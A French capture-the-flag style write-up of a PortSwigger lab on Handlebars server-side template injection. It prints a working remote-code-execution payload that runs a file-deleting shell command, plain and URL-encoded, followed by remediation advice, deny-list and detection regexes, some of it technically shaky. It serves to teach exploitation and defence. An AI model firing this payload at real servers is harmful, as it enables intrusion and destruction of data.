


# Root-Me – Challenge 10 : Server-Side Template Injection

## 1. Nom du challenge & URL

**Nom** : Challenge 10 – Server-Side Template Injection (SSTI)

**URL** : [PortSwigger Challenge 10](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)

**Plateforme** : PortSwigger Web Security Academy

---

## 2. Objectif

Le but du challenge est d'exploiter une **vulnérabilité SSTI** (Server-Side Template Injection) dans un moteur de template inconnu pour exécuter une commande système qui supprime le fichier `/home/carlos/morale.txt`.

**Type d'attaque** : Server-Side Template Injection (SSTI) avec Remote Code Execution (RCE)

---

## 3. Qu'est-ce qu'une Server-Side Template Injection ?

La **Server-Side Template Injection (SSTI)** est une vulnérabilité qui se produit lorsqu'un attaquant peut injecter du code malveillant dans un template côté serveur. Si les entrées utilisateur sont insérées directement dans les templates sans validation appropriée, l'attaquant peut exécuter du code arbitraire sur le serveur.

### Exemple de vulnérabilité :

```python
# Code vulnérable
from jinja2 import Template

user_input = request.args.get('name')
template = Template("Hello " + user_input)
output = template.render()
```

Un attaquant pourrait injecter : `{{7*7}}` ou `{{config}}` pour exécuter du code.

---

## 4. Étapes de découverte de la vulnérabilité

### 4.1. Observation initiale

En naviguant sur le site du lab, on remarque que :

1. Lorsqu'on clique sur **"View details"** du premier produit, une requête **GET** est effectuée
2. Le paramètre `message` est utilisé pour afficher : `"Unfortunately this product is out of stock"`
3. **URL observée** :
   ```
   https://0a79000b032ea5ce809bc11900c800f5.web-security-academy.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock
   ```

### 4.2. Test de fuzzing avec syntaxe de templates

Pour identifier le moteur de template utilisé, on injecte une **chaîne de fuzzing** contenant diverses syntaxes de templates :

```
${{<%[%'"}}%\
```

**Payload testé** :

```
https://0a79000b032ea5ce809bc11900c800f5.web-security-academy.net/?message=${{<%[%'"}}%\
```

**Résultat** : Un **message d'erreur** apparaît dans la sortie ! Cela confirme que le site est vulnérable à SSTI.

### 4.3. Identification du moteur de template : Handlebars

En analysant le message d'erreur et en testant différentes syntaxes, on identifie que le moteur de template utilisé est **Handlebars**.

**Syntaxe Handlebars** :
```handlebars
{{expression}}
{{#with variable}}...{{/with}}
```

### 4.4. Recherche d'exploits connus

En recherchant **"Handlebars server-side template injection"** sur le web, on trouve un exploit bien connu publié par **@Zombiehelp54**.

**Source de l'exploit** : [Handlebars SSTI RCE](https://github.com/Zombiehelp54/HandlebarsSSTI)

---

## 5. Exploitation de la vulnérabilité

### 5.1. Compréhension de l'exploit Handlebars

L'exploit utilise les fonctionnalités internes de Handlebars pour :

1. **Accéder au constructeur de fonctions** via `lookup string.sub "constructor"`
2. **Créer une nouvelle fonction** qui exécute du code arbitraire
3. **Utiliser `require('child_process')`** pour exécuter des commandes système

### 5.2. Structure de l'exploit

L'exploit utilise plusieurs niveaux de blocs `{{#with}}` pour manipuler le contexte et accéder aux fonctions natives de JavaScript :

```handlebars
{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('COMMAND');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

### 5.3. Explication technique de l'exploit

**Étape par étape** :

1. **`{{#with "s" as |string|}}`** : Crée une variable `string` contenant la chaîne "s"
   - `string.sub` → Accès à la méthode `substring` de String

2. **`{{this.push (lookup string.sub "constructor")}}`** : Pousse le constructeur de Function dans la liste
   - `String.substring.constructor` → Renvoie `Function`

3. **`{{this.push "return require('child_process').exec('...');}}`** : Pousse le code JavaScript à exécuter

4. **`{{string.sub.apply 0 codelist}}`** : Applique le constructeur de Function avec le code malveillant
   - Équivalent à : `Function("return require('child_process').exec('...');")();`

5. **Exécution** : Le code JavaScript est exécuté côté serveur avec les privilèges du processus Node.js

---

## 6. Payload final utilisé

### 6.1. Payload Handlebars (non encodé)

```handlebars
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

**Note** : Le préfixe `wrtz` est ajouté pour éviter les problèmes de parsing initial.

### 6.2. Commande système à exécuter

```bash
rm /home/carlos/morale.txt
```

Cette commande supprime le fichier `morale.txt` dans le répertoire home de l'utilisateur `carlos`.

### 6.3. Payload URL-encodé

```
wrtz%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d
```

### 6.4. URL finale complète

```
https://0a79000b032ea5ce809bc11900c800f5.web-security-academy.net/?message=wrtz%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d
```

---

## 7. Résultat obtenu

Lorsqu'on charge l'URL avec le payload complet :

1. Le serveur interprète le template Handlebars
2. Le code JavaScript est exécuté côté serveur
3. La commande `rm /home/carlos/morale.txt` est lancée
4. Le fichier est supprimé avec succès
5. **Le lab est marqué comme résolu** ✅



---

## 8. Screenshot

Voici un screenshot prouvant que le challenge est terminé :



---

## 9. Analyse technique approfondie

### 9.1. Moteurs de templates vulnérables

Plusieurs moteurs de templates sont potentiellement vulnérables à SSTI :

| Moteur     | Langage            | Syntaxe  | Vulnérabilité                    |
| ---------- | ------------------ | -------- | -------------------------------- |
| Jinja2     | Python             | `{{ }}`  | `{{config}}`, `{{''.__class__}}` |
| Twig       | PHP                | `{{ }}`  | `{{_self.env}}`                  |
| Handlebars | JavaScript/Node.js | `{{ }}`  | Prototype pollution + RCE        |
| FreeMarker | Java               | `${ }`   | `${class.forName()}`             |
| Velocity   | Java               | `$`      | `$class.inspect()`               |
| ERB        | Ruby               | `<%= %>` | `<%= system('ls') %>`            |

### 9.2. Chaîne d'exploitation Handlebars

**1. Contexte initial** :
```javascript
// Le paramètre message est inséré dans le template
const template = Handlebars.compile(userInput);
const result = template({});
```

**2. Injection du payload** :
```handlebars
{{#with "s" as |string|}}
  // string = "s"
  // string.sub = String.prototype.substring
```

**3. Accès au constructeur** :
```handlebars
{{this.push (lookup string.sub "constructor")}}
// string.sub.constructor = Function
```

**4. Création d'une fonction malveillante** :
```javascript
Function("return require('child_process').exec('rm /home/carlos/morale.txt');")();
```

**5. Exécution** :
```javascript
const { exec } = require('child_process');
exec('rm /home/carlos/morale.txt');
```

### 9.3. Différence entre SSTI et XSS

| SSTI                                           | XSS                               |
| ---------------------------------------------- | --------------------------------- |
| Exécuté côté **serveur**                       | Exécuté côté **client**           |
| Accès complet au système                       | Accès limité au navigateur        |
| Peut lire des fichiers, exécuter des commandes | Peut voler des cookies, rediriger |
| Impact critique (RCE)                          | Impact moyen à élevé              |

---

## 10. Recommandations pour sécuriser la vulnérabilité

Pour corriger cette vulnérabilité SSTI, il faut implémenter les mesures suivantes :

### 10.1. Ne jamais concaténer les entrées utilisateur dans les templates

**Code vulnérable** :

```javascript
// DANGER - Ne JAMAIS faire ceci
const Handlebars = require('handlebars');
const userInput = req.query.message;
const template = Handlebars.compile(userInput);
const result = template({});
```

**Code sécurisé** :

```javascript
// BON - Utiliser les variables de contexte
const Handlebars = require('handlebars');
const template = Handlebars.compile('Hello {{name}}!');
const result = template({ name: req.query.name });
```

### 10.2. Utiliser un mode sandbox pour les templates

Activer le mode sandbox pour limiter l'accès aux fonctionnalités dangereuses [1] [2] :

```javascript
const Handlebars = require('handlebars');

// Configurer un environnement sandboxé
const safeHandlebars = Handlebars.create();

// Désactiver l'accès aux prototypes
safeHandlebars.JavaScriptCompiler.prototype.quotedString = function(str) {
  return '"' + str
    .replace(/\\/g, '\\\\')
    .replace(/"/g, '\\"')
    .replace(/\n/g, '\\n')
    .replace(/\r/g, '\\r')
    .replace(/\u2028/g, '\\u2028')
    .replace(/\u2029/g, '\\u2029') + '"';
};
```

### 10.3. Valider et sanitiser toutes les entrées

Implémenter une validation stricte [2] [3] :

```javascript
function sanitizeTemplateInput(input) {
    // Liste noire de patterns dangereux
    const dangerousPatterns = [
        /\{\{.*\}\}/g,           // Handlebars
        /\$\{.*\}/g,             // Template literals
        /<script/gi,             // Scripts
        /require\(/gi,           // Node.js require
        /process\./gi,           // Process object
        /child_process/gi,       // Child process
        /constructor/gi,         // Constructor access
        /__proto__/gi,           // Prototype pollution
    ];
    
    for (const pattern of dangerousPatterns) {
        if (pattern.test(input)) {
            throw new Error('Invalid input detected');
        }
    }
    
    return input;
}

// Utilisation
try {
    const safeInput = sanitizeTemplateInput(req.query.message);
    // Traiter l'entrée sécurisée
} catch (error) {
    res.status(400).send('Invalid input');
}
```

### 10.4. Utiliser une liste blanche de variables autorisées

Limiter les variables accessibles dans les templates [1] [3] :

```javascript
const allowedContext = {
    productName: sanitize(product.name),
    productPrice: sanitize(product.price),
    stockStatus: product.inStock ? 'In Stock' : 'Out of Stock'
};

const template = Handlebars.compile(templateString);
const result = template(allowedContext);
```

### 10.5. Désactiver les helpers dangereux

Supprimer ou restreindre les helpers qui permettent l'accès aux fonctions système [2] [4] :

```javascript
// Supprimer les helpers dangereux
delete Handlebars.helpers.with;
delete Handlebars.helpers.each;
delete Handlebars.helpers.lookup;

// Créer des helpers personnalisés sécurisés
Handlebars.registerHelper('safe-with', function(context, options) {
    // Implémenter une version sécurisée
    if (typeof context === 'object' && !context.constructor) {
        return options.fn(context);
    }
    return '';
});
```

### 10.6. Utiliser Content Security Policy (CSP)

Ajouter une CSP stricte pour limiter l'exécution de code [3] [4] :

```javascript
app.use((req, res, next) => {
    res.setHeader(
        'Content-Security-Policy',
        "default-src 'self'; script-src 'self'; object-src 'none';"
    );
    next();
});
```

### 10.7. Implémenter un système de templates statiques

Pré-compiler les templates et éviter la compilation dynamique [1] [5] :

```javascript
// Au démarrage de l'application
const templates = {
    productOutOfStock: Handlebars.compile('Unfortunately this product is out of stock'),
    productAvailable: Handlebars.compile('This product is available'),
};

// Lors de l'exécution
app.get('/', (req, res) => {
    const template = templates.productOutOfStock;
    const result = template({}); // Pas d'entrée utilisateur
    res.send(result);
});
```

### 10.8. Utiliser des bibliothèques alternatives sécurisées

Considérer des moteurs de templates avec sécurité intégrée [4] [5] :

```javascript
// Utiliser Mustache (logic-less templates)
const Mustache = require('mustache');

// Mustache ne permet pas l'exécution de code
const template = 'Product: {{name}}, Status: {{status}}';
const view = {
    name: 'Product A',
    status: 'Out of Stock'
};
const output = Mustache.render(template, view);
```

### 10.9. Monitoring et logging

Détecter les tentatives d'exploitation SSTI [2] [5] :

```javascript
function detectSSTI(input) {
    const sstiPatterns = [
        /\{\{.*constructor.*\}\}/gi,
        /\{\{.*require.*\}\}/gi,
        /\{\{.*process.*\}\}/gi,
        /\{\{.*child_process.*\}\}/gi,
        /\{\{.*exec.*\}\}/gi,
    ];
    
    for (const pattern of sstiPatterns) {
        if (pattern.test(input)) {
            // Logger l'incident
            console.error('SSTI attempt detected:', {
                ip: req.ip,
                input: input,
                timestamp: new Date().toISOString()
            });
            
            // Alerter l'équipe de sécurité
            alertSecurityTeam({
                type: 'SSTI_ATTEMPT',
                severity: 'CRITICAL',
                details: input
            });
            
            return true;
        }
    }
    
    return false;
}
```

### 10.10. Principe du moindre privilège

Exécuter l'application avec des permissions minimales [3] [5] :

```bash
# Créer un utilisateur dédié sans privilèges
sudo useradd -r -s /bin/false nodeapp

# Limiter les capacités avec AppArmor ou SELinux
# Ne pas autoriser l'accès à /home, /root, etc.

# Exécuter l'application Node.js avec cet utilisateur
sudo -u nodeapp node app.js
```

---

## 11. Références

[1] [OWASP – Server-Side Template Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-side_Template_Injection) - Guide OWASP sur SSTI

[2] [PortSwigger – Server-Side Template Injection](https://portswigger.net/web-security/server-side-template-injection) - Documentation complète sur SSTI

[3] [Handlebars Security Guide](https://handlebarsjs.com/guide/#security) - Guide de sécurité officiel Handlebars

[4] [Exploiting SSTI in Handlebars](https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html) - Techniques d'exploitation Handlebars

[5] [Node.js Security Best Practices](https://nodejs.org/en/docs/guides/security/) - Bonnes pratiques de sécurité Node.js

[6] [Template Injection Vulnerabilities](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) - HackTricks SSTI Guide

